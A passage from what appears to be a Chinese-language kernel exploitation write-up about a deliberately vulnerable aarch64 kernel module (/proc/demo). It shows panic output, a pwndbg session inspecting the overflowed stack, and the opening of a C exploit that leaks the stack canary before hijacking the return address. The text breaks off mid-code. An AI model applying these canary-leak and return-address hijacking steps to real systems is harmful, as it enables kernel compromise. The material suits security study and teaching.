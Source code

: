 ```c
[    2.419372] Kernel panic - not syncing: Oops: Fatal exception
[    2.419778] Kernel Offset: disabled
[    2.419896] CPU features: 0x00,00001542,92600c06
[    2.420336] Memory Limit: none
```

为了更加了解漏洞现场，我们可以在memcpy时打个断点：

```c
➜  cat gdb.cmd 
set architecture aarch64
target remote 10.11.11.1:1234
b * 0xffff800000e400A4
c

➜  gdb-multiarch -x ./gdb.cmd 
Breakpoint 1, 0xffff800000e400a4 in ?? ()

pwndbg> i r x1
x1             0xffff800000e42388       -140737473404024
pwndbg> x /20gx 0xffff800000e42388
0xffff800000e42388:     0x6161616161616161      0x6161616161616161
0xffff800000e42398:     0x6161616161616161      0x6161616161616161
0xffff800000e423a8:     0x6161616161616161      0x6161616161616161
0xffff800000e423b8:     0x6161616161616161      0x6161616161616161
0xffff800000e423c8:     0x6161616161616161      0x6161616161616161
0xffff800000e423d8:     0x6161616161616161      0x6161616161616161
0xffff800000e423e8:     0x6161616161616161      0x6161616161616161
0xffff800000e423f8:     0x6161616161616161      0x6161616161616161
0xffff800000e42408:     0x803add2b75b67200      0x6161616161616161
0xffff800000e42418:     0x6161616161616161      0x6161616161616161
pwndbg> x /20gx 0xffff800000e40750 
0xffff800000e40750:     0x0000000000000000      0x0000000000000000
0xffff800000e40760:     0x0000000000000000      0x0000000000000000
0xffff800000e40770:     0x0000000000000000      0x0000000000000000
0xffff800000e40780:     0x0000000000000000      0x0000000000000000
0xffff800000e40790:     0x0000000000000000      0x0000000000000000
0xffff800000e407a0:     0x0000000000000000      0x0000000000000000
0xffff800000e407b0:     0x0000000000000000      0x0000000000000000
0xffff800000e407c0:     0x0000000000000000      0x0000000000000000
0xffff800000e407d0:     0x0000000000000000      0x0000000000000000
0xffff800000e407e0:     0x0000000000000000      0x0000000000000000
```

发现实际memcpy的源地址和IDA中分析的不同，这种情况我之前在[感染ko：在linux内核模块中植入代码](https://xuanxuanblingbling.github.io/rootkit/2022/02/26/ko/)就发现了，IDA解析的ko和最终加载进内核的内存布局是不同的，所以需要以实际加载的位置为准。故这里我们控制的demo_buf这段内存在内核地址为0xffff800000e42388。另外可以发现，我们不仅只控制了PC指针，在劫持返回地址时，同时还控制了一些其他寄存器。所以还要确认一下每个被控寄存器具体对应的栈空间是哪？方法就是向栈上填充可识别的不同数据：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200];

    int f = open("/proc/demo",O_RDWR);

    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);
    printf("[+] canary: %llx\n",canary);

```